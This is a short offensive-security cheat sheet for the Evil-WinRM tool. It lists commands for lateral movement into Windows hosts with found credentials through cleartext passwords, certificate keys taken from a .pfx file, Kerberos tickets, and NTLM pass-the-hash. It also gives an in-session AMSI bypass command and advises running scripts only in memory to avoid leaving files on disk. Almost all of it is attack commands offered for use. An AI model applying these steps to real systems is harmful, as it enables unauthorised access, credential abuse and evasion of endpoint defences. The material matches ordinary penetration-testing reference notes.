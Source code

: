 # Evil-WinRM 

## Link: https://github.com/Hackplayers/evil-winrm

## Port: 5985 (Over HTTP) 5986 (Over HTTPS)

## TIP: Use -S flag to enable SSL. Use this when the WinRM port is 5986 (Over HTTPS)

### Do lateral movement via WinRM protocol using found credentials with evil-winrm

### In your Evil-WinRM session, when authenticating you can use a folder from your local machine as a source to run powershell scripts

    evil-winrm -i TARGET_IP -u USER -p PASSWORD -s /path/to/PowerSharpBinaries

### Bypass AMSI using the command within the session:

    Bypass-4MSI

### Then you can run scripts from memory (DO NOT WRITE ON DISK UNLESS ABSOLUTELY NECESSARY!)

## Authentication Methods

#### 1) Clear text Password

     evil-winrm -i TARGET_IP -u USERNAME -p PASSWORD

#### 2) Certificate (.pfx file)

     openssl pkcs12 -in USER_PFX_CERT.pfx -nocerts -out key.pem -nodes

       openssl pkcs12 -in USER_PFX_CERT.pfx -nokeys -out cert.pem

### After generating the private key from the .pfx file, we use Evil-WinRM to authenticate

    evil-winrm -i TARGET_IP -c CERT.pem -k KEY.pem

#### 3) Kerberos

    kinit USERNAME@DOMAIN.LOCAL (Authenticate and retrieve a ticket on Windows)
  
    impacket-getTGT DOMAIN.LOCAL/USERNAME:PASSWORD (Request a TGT ticket on Linux)

 Configure /etc/krb5.conf file with the appropriate settings (Replace some of the placeholders for your use case)

       [libdefaults]
        default_realm = DOMAIN.LOCAL
        ticket_lifetime = 24h
        renew_lifetime = 7d
        forwardable = true
        dns_lookup_realm = false
        dns_lookup_kdc = true

       [realms]
       DOMAIN.local = {
        kdc = IP or Hostname of KDC/Domain Controller
        admin_server = IP or Hostname of Admin Server
       }

       [domain_realm]
        .domain.local = DOMAIN.LOCAL
        domain.local = DOMAIN.LOCAL

### 

    evil-winrm -r DOMAIN.LOCAL -i DC.DOMAIN.LOCAL (Authenticate via kerberos)

#### 4) NTLM Authentication (Pass-the-Hash)

    evil-winrm -i TARGET_IP -u USER -H NTLM_HASH
